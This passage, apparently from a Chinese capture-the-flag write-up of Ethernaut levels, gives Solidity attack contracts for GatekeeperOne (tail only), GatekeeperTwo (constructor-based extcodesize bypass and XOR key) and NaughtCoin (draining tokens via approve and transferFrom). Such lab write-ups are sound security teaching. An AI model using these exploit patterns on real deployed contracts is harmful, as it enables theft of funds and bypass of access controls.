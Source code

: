 ```solidity

        require(gateKeeperOne.enter{gas: 8191 * 3 + gas}(gateKey), "failed!");
    }
}
```

## 14-gatekeeperTwo

extcodesize(caller()) == 0, 这个要求 msg.sender 不能是有其他代码的合约，可以通过在 constructor 中执行必要的 code 规避这个检查

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

interface IGateKeeperTwo {
    function entrant() external view returns (address);
    function enter(bytes8) external returns (bool);
}

contract Hack {
    constructor(IGateKeeperTwo target) {
       bytes8 key = bytes8(~uint64(bytes8(keccak256(abi.encodePacked(address(this))))));
        require(target.enter(key), "failed");
    }
}
```

## 15-NaughtCoin

漏洞就是它本身是个 ERC20，且对外只提供了 transfer，我们可以使用 ERC20 接口来获取合约实例，approve 一下 hack 合约可以转走自己的 token,在 hack 中调用 transferFrom 转走。使用接口获取合约对于原合约中没有对接口有自己的多重保护是个大风险，所以在使用接口时，要考虑全面，对每个接口函数最好都有自己的防范措施。

```solidity
// SDPX-License-Identifier: MIT

pragma solidity ^0.8.0;

interface IERC20 {
    function balanceOf(address account) external view returns (uint256);
    function approve(address spender, uint256 value) external returns (bool);
    function transferFrom(address from, address to, uint256 value) external returns (bool);
}

contract Hack {
    function hack(address _target) public {
        IERC20 naughtCoin = IERC20(_target);
        uint256 balance = naughtCoin.balanceOf(msg.sender);
        naughtCoin.transferFrom(msg.sender, address(this), balance);
    }
}
```
